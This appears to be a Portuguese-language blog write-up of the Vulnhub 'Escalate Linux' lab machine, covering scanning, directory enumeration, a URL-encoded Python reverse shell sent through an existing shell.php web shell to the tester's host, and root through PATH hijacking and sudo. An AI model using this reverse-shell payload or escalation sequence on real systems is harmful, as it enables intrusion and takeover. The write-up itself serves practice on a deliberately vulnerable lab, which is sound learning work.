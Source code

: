 ```yaml
---
title: Vulnhub - Escalate Linux
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/escalate_linux/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/escalate_linux-1,323/>
---

## Olá

Aproveite.

## Scanning web and services

### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap -sn 10.0.2.1-255
```

> O parâmetro `-sn` tem como finalidade realizar um ping scan.
> 

![scan nmap 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.9 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sV -p $ports 10.0.2.9
```

![scan nmap ports 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmapports.png)

## Enumeração

### Port 80 - Apache httpd 2.4.29

Para enumeração da porta em questão, primeiramente foi inserido no navegador e o que estava rodando era uma página padrão do apache. Logo, foi iniciado a utilização da ferramenta *dirbuster* para enumeração de diretórios conforme as figuras abaixo.

![port 80 - apache](/assets/img/Vulnhub/escalate_linux/port80apache.png)

![dirbuster](/assets/img/Vulnhub/escalate_linux/dirbuster.png)

Foi descoberto a partir da ferramenta supracitada a existência de um arquivo denominado `shell.php`. Ao acessar o diretório havia a mensagem “pass cmd as get parameter” logo, foi realizado uma tentativa de utilizar o comando solicitado na url com o comando `pwd` e foi obtido o resultado abaixo.

![Shell.php](/assets/img/Vulnhub/escalate_linux/shellphp.png)

O comando `pwd` funcionou! Logo, temos um grande problema aqui.

> Foram feitas tentativas de upload de arquivos, porém os arquivos não foram encontrados (mas não passei muito tempo procurando).
> 

Após, foi realizado uma tentativa de obter uma *shell* através de um script *python* encodado e a partir disso foi possível entrar na maquina com sucesso.

```
http://10.0.2.9/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.6%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

### Shell Obtido

Utilizando o código em *python* para obter uma shell reversa e a ferramenta *nc* como listener, conseguimos a *shell*.

![Shell Obtido](/assets/img/Vulnhub/escalate_linux/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a *shell* na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios.

Também, foi realizado o download do arquivo *[LinEnum.sh](http://LinEnum.sh),* através de um server simples em python na minha máquina, para realizar uma enumeração automatizada de alguns pontos interessantes da máquina alvo.

![linenum.sh](/assets/img/Vulnhub/escalate_linux/linenumsh.png)

![linenum result](/assets/img/Vulnhub/escalate_linux/linenumsh-result1.png)

![linenum result-2](/assets/img/Vulnhub/escalate_linux/linenumsh-result2.png)

A ferramenta trouxe diversos pontos interessantes, destaquei dois nas imagens acima.

> É importante ressaltar que essa máquina possui diversos modos para escalação de privilégios. Aqui, será feito apenas um.
> 

Para nossa escalação de privilégios, primeiramente foi verificado a existência do arquivo do diretório `/home/user5/script` e ao utiliza-lo, o mesmo apresenta a mesma função do comando `ls`. Com isso em mente, foi feito um roubo de path, para que o script em questão executasse o `ls` que criamos.

- `echo ‘echo “user1:user1” | chpasswd’ > ls`
- `chmod 777 ls`
- `export PATH= tmp:$PATH`

![ls tmp](/assets/img/Vulnhub/escalate_linux/lstmp.png)

Conforme imagem acima, ao executar o script, o mesmo irá executar o comando `ls` que acabamos de criar. Com isso, a senha do usuário `user1` foi alterada e podemos trocar de usuário.

No usuário `user1` foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário `user1` possuía permissão de executar tudo.

- `sudo su`

![Acesso root](/assets/img/Vulnhub/escalate_linux/rootobtido.png)

### Root obtido Escalate_Linux!